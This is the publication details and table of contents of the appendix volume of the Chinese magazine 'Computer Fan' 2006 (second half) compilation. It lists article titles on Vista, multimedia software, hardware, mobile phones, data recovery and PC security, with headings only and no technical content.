# 电脑爱好者2006合订本（下）附录分册

## 内容提要

《电脑爱好者合订本》2006年下半年附录分册与正文分册相配套，作为合订本正文分册的补充和完善。2006年下半年的《电脑爱好者合订本》附录分册主要分成三个部分。第一部分是“热点应用”，下面又分为软件、硬件、网络，涉及到的都是2006年最热门的技术，并从实用的角度对该技术涉及到的产品和操作方法进行了剖析。第二部分为“简明图书”。这部分将5个热门图书选题，浓缩成5个超大篇幅的专题，使读者通过这5个专题，基本就可获得5本书的浓缩知识。第三部分，为“完全技巧荟萃”，这部分文章将读者很关心的一些应用，通过一个一个技巧的方式展现出来，可谓是电脑操作技巧的精华荟萃。
总之，2006年下半年的《电脑爱好者合订本》附录分册，内容丰富，信息含量巨大，是一本实用的电脑技术手册。

本书配套有A、B两张CD-ROM光盘。
配套光盘B粘贴在附录分册内页中，里面收录了广受读者欢迎的2006年《电脑爱好者》（普及版）1-11期电子版，该电子版完全“影印”了普及版的内容，文章数量巨大，通俗易懂，是电脑入门者不可多得的参考学习资料。配套光盘B还收录多媒体教程，是奉献给读者的超级互动教学内容，里面分为Photoshop、Office 2003、Flash 8三个大型软件的教学，讲解详细、清楚、易懂，是优秀而超值的动画教材。另外，配套光盘B中，还收录三十多款免费软件，这些免费软件都是精选的优秀作品，一定可以给读者带来惊喜。

《电脑爱好者合订本》2006年(下)。附录分册

| 出版人: 陈梅 |
| :--- |
| 总编辑: 高翔 |
| 副社长: 赵健 |
| 主编: 封立鹏 |
| 副主编: 潘留军 |
| 编辑策划: 董宏 安世伟 |
| 责任编辑: 董宏 |
| 制作: 格格 |
| 编辑出版: 北京《电脑爱好者》杂志社 |
| 发行: 北京《电脑爱好者》杂志社发行部 |
| 发行咨询电话: (010)88400665 |
| 技术支持: cf_hdb@cfan.com.cn |
| 网址: http://www.cfan.com.cn |
| 经销: 各地报刊亭及新华书店 |
| 开本: 787×1092 1/16 |
| 印张: 24.5 |
| 字数: 100万字 |
| 刊号: ISSN 1005-0043/CN11-3248/TP |
| 国内邮发代号: 82-528 |
| 本书如有印刷或装订质量问题，我们负责调换。 |
| 联系电话: (010)88400665 E-mail: cxxing@cfan.com.cn |
| 图文版权所有，未经同意不得转载、翻印 |
| 全套合订本 (正文分册、附录分册、配套2CD) 定价: 38元 |

# 2006年普及版目录

### 热点应用·软件

#### Windows Vista尝鲜及疑难解答

一、Windows Vista的发展史

二、Windows Vista各种版本介绍

- 1. Windows Vista Starter Edition (精简版/入门版)
- 2. Windows Vista Home Basic Edition (家庭基本版)
- 3. Windows Vista Home Premium Edition (家庭高级版/标准版)
- 4. Windows Vista Professional Edition (专业版)
- 5. Windows Vista Small Business Edition (小型商业版/小型企业版)
- 6. Windows Vista Enterprise Edition (企业版)
- 7. Windows Vista Ultimate Edition (终极版/最终版)

三、新功能体验.视觉的冲击

- 1. Basic用户界面
- 2. Windows Classic用户界面
- 3. Standard用户界面
- 4. Windows Aero用户界面

四、新功能体验.便捷高效的操作界面

- 1. “开始”菜单
- 2. 资源管理器

五、新功能体验.新增的工具组件

- 1. 日程管理的好帮手: Windows Calendar
- 2. 内置的DVD制作软件: Windows DVD Maker
- 3. Windows Defender，对付流氓软件的利器
- 4. Parental Controls (父母控制功能)
- 5. 用户帐号控制(User Account Control)
- 6. 强大的数码相片、影片管理和处理功能: Windows Photo Gallery
- 7. Windows Vista内置的游戏
- 8. 强大的备份、还原功能: Back and Restore Center
- 9. Snipping Tool截取屏幕图像软件
- 10. 硬件评分工具:Performance And Information Tools
- 11. 实用的Windows边栏和小配件: Windows Sidebar和Gadgets

六、改进的工具组件及功能

- 1. Windows Media Player 11
- 2. 更强大视频编辑软件: Windows Movie Maker 6
- 3. Internet Explorer 7
- 4. Windows Mail
- 5. USB设备管理

七、Windows Vista的常见问题

#### 会声会影10——家庭影音不完全手册

一、准备工作

- 1. 计算机配置要求
- 2. 磁盘的要求

二、安装与启动

三、视频编辑基础概念

- 1. 帧的概念
- 2. 场的概念
- 3. 什么是数据速率

四、会声会影10功能简介

- 1. 认识会声会影编辑器
- 2. 步骤按钮
- 3. 时间轴
- 4. 素材库
- 5. 影片项目

五、实战案例（一）——旅游DV制作

- 1. 捕获视频
- 2. 编辑视频
- 3. 增加转场
- 4. 标题设计
- 5. 输出影片

六、实战案例（二）——宝宝成长MV

- 1. 光盘素材的导入
- 2. 照片素材的导入
- 3. 添加配乐
- 4. 增加特效

#### CorelDRAW 12简明教程

一、图形图像的基本知识

- 1. 位图与矢量图
- 2. CorelDRAW 12的几个基本概念
- 3. 色彩模式

二、走进CorelDRAW 12

- 1. CorelDRAW 12的启动
- 2. 熟悉操作界面

三、边学边练——绘制卡通形象

- 1. 创建新文件
- 2. 绘制卡通的基本轮廓
- 3. 绘制卡通的细部特征
- 4. 修饰

四、常用工具操作讲解

- 1. 矩形工具
- 2. 对象编辑
- 3. 对象变换
- 4. 文本处理
- 5. 对象的群组与造型
- 6. 交互式工具组

五、熟能生巧——制作“休闲吧”招贴画

六、文件的输入与输出

七、打印

- 1. 设置打印机相关参数
- 2. 打印预览
- 3. 打印

## 免费软件千里马——功能卓越的特色工具

## 抢先体验Flash 9.0

一、安装Flash 9.0

二、试用Flash 9.0

#### 玩转“Windows XP正版增值计划”之软件家族

一、通过正版验证，获得免费增值软件

二、Photo Story 3 For Windows

三、免费多区时钟、农历、万年历

四、用Microsoft Match-Up锻炼记忆力

五、Microsoft Video Screensaver——屏保也能播放电影

六、Windows Defender——木马、间谍一起抓

七、Microsoft Link-up: 来自微软的“连连看”

八、Microsoft Cartoon Maker——头像也能DIY

九、免费试用MSN游戏

## VMware中使用正版OEM Windows XP操作系统

一、问题产生的原因

二、制定解决方案

三、实战操作

- 1. 确定BIOS的种类
- 2. 提取BIOS文件
- 3. 修改BIOS文件
- 4. “刷新” BIOS文件
- 5. 其他品牌的OEM特征码及修改方法

### 热点应用·软件（续）

#### 新一代音频格式 MPC，让音乐更加悦耳动听

- 音频基础知识
  - 关于音频格式的几个基本概念
  - MPC格式与其他格式
  - MPC格式特点
- MPC格式转换技巧
  - MPC编码
  - 将MPC格式转换成MP3
- MPC播放软件
  - FooBar 2000
  - 在Winamp上播放MPC

#### E时代的“吉他大师”——Guitar Pro 5 简明教程

- Guitar Pro简介
- Guitar Pro 的发展及Guitar Pro 5.0的新增功能
- Guitar Pro 5.0的下载与安装
- 使用Guitar Pro 5.0练习演奏已有曲谱
- 使用Guitar Pro 5.0编写乐谱
- 利用Guitar Pro 5.0记谱

#### 君子动手不如动口——电脑语音应用指南

- 语音识别技术概述
- 语音识别基本原理
- 常见语音识别软件简介
  - IBM语音识别系统ViaVoice
  - Dragon NaturallySpeaking Preferred
  - 语音专家和语音大师
  - 语音识别软件通用技巧
- 语音合成技术原理及应用
  - 即时语音提示 & 校对软件InsTalk
  - 通用电脑语音系统
  - 读霸
  - Read2U
- 微软语音识别引擎简介
  - 使用语音识别训练向导
  - 使用语音识别引擎
- 手持设备的语音技术应用
  - 微软PPC语音控制软件
  - SmartRead for Pocket PC
  - Cyberon VoiceCommander
  - 语音电子书
  - 中科信利

#### 2006热点病毒及防范完全方案

- 流行病毒新趋势
  - 新病毒增长速度加快，变种增多
  - 带有病毒特征的“流氓软件”层出不穷
  - 从破坏转向“趋利”的新趋势
  - 病毒传播手段多元化
  - 利用应用软件漏洞进行攻击的新趋势
  - “钓鱼”攻击逐渐成为网络黑客攻击的主要手段
  - 病毒本土化的新趋势
- 2006流行病毒及专杀工具大扫描
  - 流行的病毒技术分析
  - 流行的计算机病毒及防范
  - 病毒防范综合策略
  - 流行病毒专杀工具荟萃

## 2006年“流氓软件”大看台

- 雾里看花之“流氓软件”现象
  - “流氓软件”的种类
  - 流氓软件背后的利益分析
- 水中望月之“流氓软件”技术分析
  - “流氓软件”基础技术：注册表修改
  - 潘多拉魔盒：开放的API接口
  - 让“流氓”横行的插件技术
- 典型“流氓软件”特征及清除办法
  - “流氓软件”的典型清除方法
  - 网络“警察”：专用“流氓软件”清理工具

#### 2006年安全新概念——PKI 技术完全接触

- 了解PKI的基础知识
  - 为什么需要PKI技术
  - 网络“公安局”：PKI体系中的CA中心
  - 网络“身份证”：数字证书
- PKI体系下的数字证书应用
  - 数字证书的获得、安装及查看
  - 利用数字证书发送安全的电子邮件
  - 电子签章办公实例
- PKI实例：通过PGP软件的实现
  - PGP安装及密钥生成
  - 使用PGP发送加密电子邮件加密

### 热点应用·网络

#### 2005－2006 年软件、游戏、硬件驱动补丁一览

## 风向标：2006热点网络技术盘点

- 博客技术：开启一个崭新的网络时代
  - 博客网站特色技术扫描
  - 技术亮点：博客管理工具的出现
- 网络杂志技术：一道迷人的风景线
  - 网络杂志平台技术分析
  - 网络杂志制作技术扫描
- 精彩纷呈：发展中的Web 2.0技术
  - RSS技术：精彩内容在取舍之间
  - TAG技术：用标签扩大视野
  - AJAX技术：充分提高Web性能
- 人际资源的新发展：WIKI和SNS技术
  - WIKI技术：协同工作新理念
  - SNS技术：延伸网络人际资源

## 2006年网络攻击技术点评及实战

- 2006年网络攻击发展趋势
- 探测技术和攻击测试平台的发展
- 2006年网络攻击和隐藏技术述评
- 热门攻击实例点评

## 2006年网络电视软件盘点

- 2006年网络电视技术分析和流行软件
  - 2006网络电视关键技术分析
  - 2006年热门网络电视软件扫描
- 网络电视软件功能评测
  - 软件界面对比
  - 连接速度、画面流畅程度和实时性对比
  - 频道内容对比
  - 资源占用和操作方便性对比
  - 软件更新与后期维护对比
- 网络电视发展问题及前景分析
  - 政策问题
  - 网络电视的内容问题
  - 用户支付手段问题
  - 索引和共享的问题
  - 版权保护问题

## Google Earth——上帝之眼

- 关于Google Earth
- Google Earth功能概述
- Google Earth的安装和使用
- Google Earth图片欣赏

#### 网上交易，一网情深！！！

- 主流“网银”大看台
  - 招商银行（http://www.cmbchina.com）
  - 工商银行（http://www.icbc.com.cn）
  - 建设银行（http://www.ccb.com）
  - 交通银行（http://www.95559.com.cn）
- 开通“网银”轻松学
  - 招商银行
  - 工商银行
  - 建设银行
- “网银”功能超爽体验
  - 账户查询
  - 转账汇款
  - 网上缴费
  - 网上挂失
- 网上购物 足不出户
  - 网上支付平台
  - 网上商城
- 网上开店 人人都可做掌柜
- 网上消费 安全第一
  - 加强上网的安全意识，培养良好的上网习惯
  - 交易的账户要少存钱
  - 认清网址，避免进入“假银行”

#### 掀起 Internet Explorer 7 的盖头来

- 软件的安装与验证

### 热点应用·硬件

## 2006年度信息技术发展扫描

一、CPU篇

1. 双核之争
2. “龙芯”二次飞腾

二、显示篇

1. Nvidia Quad SLI技术
2. 硬件加速物理运算技术
3. HDCP高带宽数字内容保护技术（High-bandwidth Digital Content Protection）

三、存储篇

1. 垂直记录PMR（Perpendicular Magnetic Recording）技术
2. 蓝光/HD-DVD：新一代光存储标准

四、通信篇

五、无线体验篇

六、软件应用篇

## 不值得购买的IT产品

一、数码设备类

二、DIY配件类

三、电脑外设类

四、其他类别

#### 主流硬件辨别真假

一、处理器辨真假

二、内存辨真假

三、鼠标辨真假

## 轻松辨别板卡的优劣

一、辨别主板的优劣

1. 分辨PCB板的优劣
2. 分辨主板优劣的其他因素
3. 分辨过期返修主板

二、识别内存的优劣

1. 内存的结构
2. 内存PCB的设计
3. 内存金手指
4. 生产工艺

三、识别显示卡的优劣

1. PCB设计
2. 注意空焊位
3. 电容
4. 显卡散热器
5. 显存颗粒
6. 低通滤波电路
7. 电感元件

## 轻松认识硬件编号

一、辨别Intel CPU编号

二、辨别AMD CPU编号

三、分辨DDR内存编号

四、分辨DDR2内存编号

五、分辨显存编号

六、识别硬盘编号

## 打造完美移动平台——笔记本周边配件大全

一、赶上台式机的脚步：笔记本扩展基础

1. 外部接口带来活力：笔记本外设的根基
2. 功能性扩展：外设带来新体验

二、娱乐无极限：笔记本视听外设

1. 外置笔记本声卡
2. 移动的音符：便携式笔记本音箱
3. 移动液晶电视：笔记本电视卡

三、玩的是专业：移动办公专用外设

1. 架起沟通桥梁：笔记本网卡大全
2. 轻薄本本的专利：外置光驱
3. 体验最佳操控感：另类输入设备
4. 迷你型鼠标
5. 专用财务键盘
6. 游戏控制器
7. 寻找台式机感觉：扩展坞与底座

四、没有做不到，只有想不到：笔记本另类外设

1. 笔记本包
2. LCD保护膜
3. USB Hub
4. USB转传统接口
5. USB供电设备

## 沟通无极限——笔记本数据共享五项绝招

- 第一式绝招：红外线对接
- 第二式绝招：USB Link Cable对拷线
- 第三式绝招：无线网卡对接
- 第四式绝招：普通网卡对等网
- 第五式绝招：移动存储与硬盘转接

## 免费软件千里马——数据修复专家

## 省钱的秘密——喷墨打印机耗材使用攻略

- 一、火眼金睛：识别灌装的“原装”墨盒
- 二、喷打墨盒选择：原装耗材还是兼容耗材
- 三、四大品牌墨盒真伪辨别方法
- 四、文本打印捷径：廉价的填充墨水
- 五、破解芯片干扰：彻底征服Epson墨盒
- 六、纸张更要节约：使用PineFrint缩印软件
- 七、廉价照片输出：改装连续供墨系统

## 做个轻松的“移动一族”

- 一、初级方法：让个人数据随身走
  1. 轻松用向导备份
  2. 使用向导恢复备份文件
  3. 制作“自动恢复备份”文件
- 二、中级方法：让操作系统“动”起来
- 三、中级方法：拥有一个移动办公助手
  1. 收发邮件
  2. 导入邮件
  3. 导入收藏夹
  4. 导入文件资料
- 四、高级方法：打造绿色版的软件
  1. 即时通讯工具
  2. 音乐播放软件
  3. 图像处理软件
  4. 图片浏览工具
  5. 网络传输软件
- 五、终极方法：整个Windows搬过来
  1. 第一次运行
  2. 同步数据
  3. “搬动”你的Windows
  4. 恢复原有的系统

## 将PPC打造成最强的GPS装备

- 一、为什么要用PPC组建个人GPS系统
- 二、用PPC搭建GPS系统的硬件组成
- 三、“傻瓜类”导航软件应用简介
- 四、OziExplorer CE应用简介
- 五、手持机类GPS软件应用情况
- 六、PPC上其他GPS应用软件简介

### 简明图书

## 数据存储、保护、备份、恢复方案完全手册

一、硬盘的安装与分区

1. 大容量硬盘与主板的兼容性
2. 检测BIOS是否存在137GB限制
3. 使用Fdisk分区的基本方法
4. 操作系统的选择与设置
5. 大容量硬盘如何分区才合理
6. IDE设备的连接顺序
7. 解决盘符交错问题
8. SATA与PATA硬盘和睦相处
9. 老主板安装串行硬盘
10. Serial-ATA RAID的组建方法

二、移动存储应用

1. 切莫盲目抛弃软驱
2. 何谓无驱动型U盘
3. 启动型U盘如何发挥作用

# 电脑爱好者 2006 合订本（下半年）目录

### 三、数据存储与备份应用
- 1. 加密光盘刻录解决方案
- 2. 如何彻底删除文件
- 3. 用目录来管理数据
- 4. 如何解决移动存储中的数据管理难题
- 5. Ghost镜像的修改
- 6. 如何识别水货硬盘
- 7. 如何使用虚拟光驱
- 8. 虚拟光驱盘符交错的解决方法
- 9. 光盘镜像格式的转换
- 10. MDF虚拟镜像的使用方法
- 11. 镜像光盘的建立
- 4. 加密型U盘是否保险
- 5. 启动型U盘如何制作启动文件
- 6. 小心假冒的USB 2.0接口
- 7. 谨防FlashROM瑕疵
- 8. 移动存储成本分析
- 9. 网络硬盘究竟能否作为移动存储工具
- 10. 网络硬盘发展现状
- 11. 为移动硬盘文件夹加密
- 12. Windows Server 2003与移动存储
- 13. 自己DIY移动硬盘
- 14. 移动硬盘与USB 2.0兼容性问题
- 15. 解决移动硬盘供电问题
- 16. 加密移动硬盘的简易方法
- 17. 移动硬盘盒质量不可大意

### 四、数据修复应用
- 1. 如何区分逻辑坏道与物理坏道
- 2. 如何屏蔽物理坏道
- 3. 零磁道损坏的处理
- 4. 主引导区的恢复
- 5. 分区表的修复
- 6. 突破逻辑锁的限制
- 7. 替换硬盘电路板找回数据
- 8. 修复有故障的电路板
- 9. 添加G-list来修复坏道硬盘
- 10. 硬盘断针怎么办
- 11. 文件误操作后的修复
- 12. RAID恢复基础分析

194 免费软件千里马——功能实用的系统维护工具

## 197 网络安全指导手册

### 一、网络安全基础知识篇
- 1.1 什么是网络安全？
- 1.2 什么是计算机病毒？如何给计算机病毒命名？
- 1.3 什么是特洛伊木马？
- 1.4 什么是“网络钓鱼”式攻击？
- 1.5 什么是防火墙？
- 1.6 什么是“后门”？
- 1.7 什么是网络监听？
- 1.8 什么是拒绝服务攻击？
- 1.9 什么是ARP攻击？
- 1.10 什么是欺骗攻击？它有哪些攻击方式？
- 1.11 什么是入侵检测技术？
- 1.12 入侵检测系统可以分为哪几类？
- 1.13 入侵者进入系统的方式有哪些？
- 1.14 如何使用ping命令？
- 1.15 如何使用Netstat命令？
- 1.16 如何使用IPConfig命令？
- 1.17 如何使用ARP（地址转换协议）命令？
- 1.18 如何使用Tracert命令？
- 1.19 如何使用Route命令？
- 1.20 如何使用NBTStat命令？
- 1.21 什么是TCP/IP协议？
- 1.22 什么是IPX/SPX协议？
- 1.23 什么是NetBEUI协议？
- 1.24 什么是SNMP协议？
- 1.25 什么是UDP协议？
- 1.26 什么是PPPOE协议？
- 1.27 什么是ICMP协议？
- 1.28 知名的网络安全站点有哪些？

### 二、系统漏洞攻防篇
- 2.1 什么是系统漏洞？
- 2.2 系统漏洞主要有哪些类型？
- 2.3 Windows系统的补丁有哪些？如何命名？
- 2.4 如何部署局域网内部的漏洞防范服务？
- 2.5 Windows系统下有哪些日志文件？
- 2.6 漏洞扫描软件主要有哪些？
- 2.7 什么是NetBIOS漏洞？如何进行防范？
- 2.8 什么是IPC$漏洞？如何防范？
- 2.9 什么是SAM数据库安全漏洞？如何进行防范？
- 2.10 什么是RPC漏洞？如何进行防范？
- 2.11 什么是Unicode漏洞？如何进行防范？
- 2.12 什么是溢出攻击？如何进行防范？
- 2.13 什么是输入法漏洞？
- 2.14 防火墙防范中，常见的端口有哪些类型？
- 2.15 什么是IPSec？
- 2.16 防火墙的安全策略有哪些？

### 三、网页安全攻防篇
- 3.1 网页浏览中的“陷阱”通常有哪些？
- 3.2 如何防范网络浏览中的“陷阱”？
- 3.3 如何在浏览器中查看“隐私报告”？
- 3.4 网页广告插件是如何进入用户电脑的？
- 3.5 IE默认连接首页被修改怎么办？
- 3.6 如何清除开机时自动弹出的网页？
- 3.7 浏览网页后，注册表被锁定怎么办？
- 3.8 双网卡连接后不能打开网页怎么办？
- 3.9 浏览器出现非法提示怎么办？
- 3.10 点击超级链接时，IE浏览器毫无反应怎么办？
- 3.11 以“允许脱机浏览”收藏网页后，为何提示“无法浏览”？
- 3.12 升级操作系统后，为何不能使用QQ传递文件？
- 3.13 MSN登录后出现“0x81000370错误”是什么原因？
- 3.14 钓鱼式攻击主要有哪些方法？
- 3.15 如何防范网页中的Java Applet攻击？
- 3.16 如何防范针对网络银行攻击？
- 3.17 什么是Cookie？如何进行Cookie安全防范？

### 四、病毒与木马攻防篇
- 4.1 常见的病毒有哪些？
- 4.2 防病毒软件的工作原理是什么？
- 4.3 什么是蠕虫病毒？
- 4.4 蠕虫的传播方式有哪些？
- 4.5 网络病毒的防范方法有哪些？
- 4.6 如何防范手机病毒？
- 4.7 炸弹攻击的原理是什么？
- 4.8 什么是邮件炸弹？
- 4.9 什么是逻辑炸弹？
- 4.10 什么是聊天室炸弹？
- 4.11 木马一般潜伏在哪里？
- 4.12 如何防范邮件病毒？
- 4.13 如何通过Outlook Express阻止垃圾邮件？
- 4.14 如何判断尝试用Ping来探测本机的攻击日志？
- 4.15 如何判断“试图连接本机的Http端口或FTP端口”？
- 4.16 如何判断“试图连接本机的7626端口”的攻击日志？
- 4.17 如何判断“接收到xxx.xxx.xxx.xxx的IGMP数据包”？
- 4.18 如何判断“试图连接本机的139端口”的攻击日志？
- 4.19 如何手工清除电脑里的病毒和木马？

### 五、即时通信软件攻防篇
- 5.1 如何利用QQ获取攻击信息？
- 5.2 如何突破内网的限制登录QQ？
- 5.3 什么是QQ消息“炸弹”？如何进行防范？
- 5.4 QQ号是如何被盗的？
- 5.5 如何阻断QQ的连接？
- 5.6 如何利用软件提高QQ安全性？
- 5.7 如何阻断MSN的连接？

### 六、加密与解密篇
- 6.1 在网络安全中，加密技术是什么？
- 6.2 入侵者一般通过哪些方式获得密码？
- 6.3 危险的密码一般有哪几种？
- 6.4 破解密码时，字典法有什么作用？
- 6.5 如何设置安全可靠的密码？
- 6.6 加密过程中，有哪些简单有趣的方法？
- 6.7 完整的加密系统由哪些部分构成？
- 6.8 什么是密钥？
- 6.9 加密算法有哪些种类？
- 6.10 网络安全中，经常提到的MD5算法是什么？
- 6.11 如何对Word文件进行加密和解密？
- 6.12 如何对Access数据库进行加密和解密？
- 6.13 如何对WinZip、WinRAR等文件进行加密和解密？
- 6.14 如何解密用“*”号隐藏的密码？
- 6.15 如何使用JavaScript进行加密保护？
- 6.16 什么是数字证书？
- 6.17 国内有哪些CA认证中心？
- 6.18 什么是电子签名技术？
- 6.19 什么是PKI技术？
- 6.20 什么是数字水印？
- 6.21 什么是VPN技术？
- 6.22 什么是网络隔离技术？

## 222 菜鸟也疯狂——轻松玩转数码相片

### 第一篇 光影魔术手——nEO iMAGINE

#### 一、快速处理数码相片
- 1. “DSLR作品处理”
- 2. “摄影作品发布前处理”
- 3. “花样边框+水印”
- 4. 自动动作菜单设置

#### 二、详细处理数码相片
- 1. 校正翻转和倾斜的相片
- 2. 把相片的多余部分剪去
- 3. 缩放相片尺寸
- 4. 对相片进行光影处理
- 5. 矫正偏色的相片

#### 三、给数码相片添加效果
- 1. 精彩的反转片、负冲效果
- 2. 富有创意的“黑白”和“旧相”效果
- 3. 最具特色的边框效果

#### 四、针对人像的美容功能
- 1. 柔光镜
- 2. 人像美容
- 3. 去红眼/去斑

#### 五、其他实用功能
- 1. 影楼风格人像照
- 2. Lomo风格模仿
- 3. 证件照片冲印排版
- 4. 制作多图组合
- 5. IE魔术图

### 第二篇 管理和处理数码相片的利器——Picasa 2

#### 一、浏览和管理数码相片
- 1. 调整将显示哪些图片和文件夹
- 2. 在文件夹间移动图片
- 3. 修改文件夹说明
- 4. 从文件夹中删除图片
- 5. 快速查找某张相片

#### 二、简单易用的图像编辑功能
- 1. 基本修正
- 2. 手气不错
- 3. 其他设置
- 4. 效果

#### 三、其他实用功能

## 239 全面优化你的硬件系统
- 一、CPU优化
- 二、内存和BIOS优化
- 三、硬盘优化
- 四、显示卡优化
- 五、显示器优化
- 六、刻录机优化

## 255 PPC智能手机使用技巧十二讲

### 第一讲 PPC智能手机概述
- 一、智能手机市场概述
- 二、PPC智能手机的特点
- 三、你需要购买智能手机吗

### 第二讲 配件DIY技巧点滴
- 一、制作“原装”充电器
- 二、制作USB HOST线

### 第三讲 ROM升级技巧

### 第四讲 第三方通信记录软件

### 第五讲 拨号增强软件

### 第六讲 网络通话软件

#### 二、短信功能增强
- 1. 短信大师
- 2. 虹软彩信通

### 第七讲 铃声和图片应用技巧
- 一、自制WAV铃声
- 二、设定来电个性声音
- 三、“彩铃”、“彩话”应用
- 四、设置PPC手机桌面外观

### 第八讲 保持PPC智能手机稳定
- 一、合理安装软件
- 二、合理使用PPC手机
- 三、优化PPC的设置参数

### 第九讲 CMWAP节点上网技巧详解

#### 一、浏览网页
- 1. 使用内置PIE
- 2. 使用Opera 8.5 for PPC
- 3. 使用NETFRONT
- 4. 使用UCWEB
- 5. 使用网页代理

#### 二、在线聊天
- 1. JAVA QQ
- 2. UCWEB
- 3. 邦邦通

#### 三、收发邮件

#### 四、其他应用
- 1. 手机网游
- 2. 在线资讯
- 3. 网络影视

### 第十讲 多媒体应用技巧
- 一、PPC手机上看电视
- 二、PPC上各种媒体文件的播放

### 第十一讲 用电脑丰富PPC手机功能

#### 一、电脑手机联姻的用途
- 1. 增强手机娱乐功能
- 2. 免费享用网上资源
- 3. 提高手机安全性
- 4. 增强手机功能

#### 二、电脑手机联姻的具体方法
- 1. 数据线
- 2. 红外连接
- 3. 蓝牙
- 4. WIFI

#### 三、用电脑管理PPC手机

### 第十二讲 把PPC手机作为PC外设
- 一、把PPC作为电脑的无线MODEM
- 二、把PPC手机变PC摄像头
- 三、把PPC作为PC的无线遥控器

### 第十三讲 PPC手机其他应用精要
- 一、PPC 2003也能实现一键横屏
- 二、巧让PPC手机阅读任何电子书
- 三、PPC手机超频，XCPUScalar帮你忙
- 四、解决PPC无法通过屏幕调整的故障
- 五、PPC上随身银行的安装与使用
- 六、使用PocketPC进行传真收发
- 七、PPC手机应如何节省电能
- 八、让你的PPC手机具有“防盗”功能
- 九、PPC手机的其他“另类”用途

### 完全技巧荟萃

## 272 看上去更美：Windows系统字体完全攻略

### 一、字体基础知识
- 1. 字体与编码
- 2. Windows字体常识

### 二、内部挖潜：字体美化的N种技巧
- 1. 巧妙设置，让字体显示无误
- 2. 略施妙计，增强视觉冲击力
- 3. 一库多用，合理利用字体资源
- 4. 原汁原味，保持字体显示效果
- 5. 简单方便，巧用字体设计标志

### 三、如虎添翼：“秘密武器”助力字体管理
- 1. 风格独具：实用的字体管理工具
- 2. 仓颉造字：让字体更加个性化
- 3. 另类品位：让系统字体移植也疯狂
- 4. 独领风骚：电脑书法是这样练成的

## 275 Unlocker，最好的解锁匠
- 1. 软件的安装
- 2. 软件的使用
- 3. 技巧与提示

## 277 绝密隐私——电脑加密解密技巧

### 第一篇 操作系统的加密解密策略
- 1. CMOS的加密与解密
- 2. Windows系统登录加密与解密
- 3. NTFS文件系统的加密与保护措施

### 第二篇 文档加密解密
- 1. Word文档加密与解密
- 2. Excel文档加密与解密
- 3. 网页文档加密
- 4. 另类文档加密解密方式

### 第三篇 使用软件进行加密
- 1. 图片加密我用CryptaPix
- 2. 文件加锁王，将文件保护进行到底
- 3. 易通文件夹锁，不一样的加密方式

## 289 电脑也“环保”：减少你的资源占用
- 1. 减少Windows系统资源占用
- 2. 降低IE的资源占用
- 3. 优化防病毒软件的资源占用
- 4. 降低其他工具软件的资源占用

## 300 擦干眼泪，拯救自己——恢复误删除的数据
- 1. 数据存储基本原理
- 2. 古老而有效的数据恢复工具Undelete
- 3. 著名的文件恢复工具EasyRecovery
- 4. 高效快速的Finaldata
- 5. 其他恢复软件

## 305 文件修复技术完全接触
- 1. 文件损坏原因及修复思路
- 2. 高效工作：修复重要的办公文件
  - 1. Word文件的修复
  - 2. Excel文件的修复
  - 3. 邮件的修复
  - 4. 压缩文件的修复
  - 5. PDF文件的修复
- 3. 娱乐新天地：影音文件的修复
  - 1. 通用修复方法
  - 2. DivX视频文件的修复
  - 3. RM电影的修复
  - 4. MP3文件的修复
- 4. 更上一层楼：各类介质上的文件修复
  - 1. 介质文件修复要点
  - 2. 从分区或U盘中修复文件
  - 3. 光盘、闪存卡及其他存储器上的文件修复

## 312 滴水不漏：打造安全的浏览器
- 1. 追根溯源：浏览器的安全隐患分析
  - 1. 浏览器外部安全隐患分析
  - 2. 浏览器内部安全隐患分析
- 2. 防范于未然：浏览器的安全管理
  - 1. 浏览器的安全设置
  - 2. 通过浏览器安全工具加强防护
  - 3. 案例分析：辨别浏览器中的陷阱

## 316 打造个人“宙斯盾”级安全系统

### 一、病毒 / 攻击篇
- 1. 病毒介绍
- 2. 常见病毒类型
- 3. 攻击介绍
- 4. 如何预防病毒 / 攻击
- 5. 主流杀毒软件简介
- 6. 杀毒软件实战

### 二、木马篇
- 1. 木马介绍及危害
- 2. 如何预防木马
- 3. 如何判断自己是否中了木马
- 4. 发现中木马后：亡羊补牢，斩断黑手
- 5. 清除木马——木马克星

### 三、邮件防护篇
- 1. 垃圾邮件介绍
- 2. 拒绝垃圾邮件指南
- 3. Foxmail防垃圾
- 4. Web登录邮箱反垃圾邮件设置

### 四、QQ安全篇
- 1. QQ日常使用注意事项
- 2. QQ被盗后如何寻回QQ密码

### 五、流氓软件 / 插件篇
- 1. 流氓软件 / 插件介绍
- 2. 清除流氓软件 / 插件——360安全卫士

## 326 少林“一指禅”——键盘版
- 1. 基础篇
- 2. 办公篇
- 3. 网络篇
- 4. 娱乐篇

## 331 文件格式转换大全
- 1. 办公文件轻松转换
- 2. 图像文件格式转换
- 3. 视频文件格式转换
- 4. 音频文件转换
- 5. 把多媒体转换到手机 / PDA里

## 340 刻录应用技巧问答
- 1. 刻录机硬件基础知识
- 2. 基本刻录方法
- 3. 特殊的刻录方法
- 4. 刻录应用故障释疑
- 5. 影像专用刻录的制作方法

## 348 帮你开家美容院——Photoshop打造人造美女

### 保养篇
- 1. 脸部护理
- 2. 眼部护理

### 彩妆篇
- 1. 修饰性感眉型
- 2. 打造卷翘睫毛
- 3. 闪亮眼影
- 4. 透明唇彩
- 5. 口齿清新 美白牙齿
- 6. 炫彩秀发

### 美体塑新篇
- 1. 丰胸美体，塑造女人完美曲线
- 2. 打造性感美腿

## 358 网络典型应用技巧与故障排除
- 1. 网络设备故障
  - 1. 交换机常见故障和排障方法
  - 2. 网卡常见故障和排障方法
  - 3. 典型网卡故障解决实例
  - 4. ADSL Modem常见故障和排障方法
- 2. 局域网故障解决方案
  - 1. Windows XP下局域网故障的检测方法
  - 2. 解决Windows XP不能访问局域网的故障
  - 3. 局域网网速变慢的故障分析

## 363 轻松实现企业远程办公
- 1. 用VPN实现远程办公
  - 1. VPN概述
  - 2. 企业VPN连接方案
  - 3. VPN服务器的配置
  - 4. VPN客户端配置
- 2. 用SharePoint Portal Server 2003建立办公站点
  - 1. SharePoint Portal Server 2003简介
  - 2. SharePoint Portal Server 2003的系统要求
  - 3. SharePoint Portal Server 2003安装配置
  - 4. 创建WSS站点
  - 5. 创建SPS站点

## 378 流行网站内容管理系统应用实例
- 1. PHP内容管理系统
  - 1. DedeCMS
  - 2. PHPCMS
- 2. ASP内容管理系统
  - 1. 动易CMS系统
  - 2. 风讯CMS系统
  - 3. 科汛CMS系统

## 385 电脑使用劣习看过来

# 2006年普及版目录

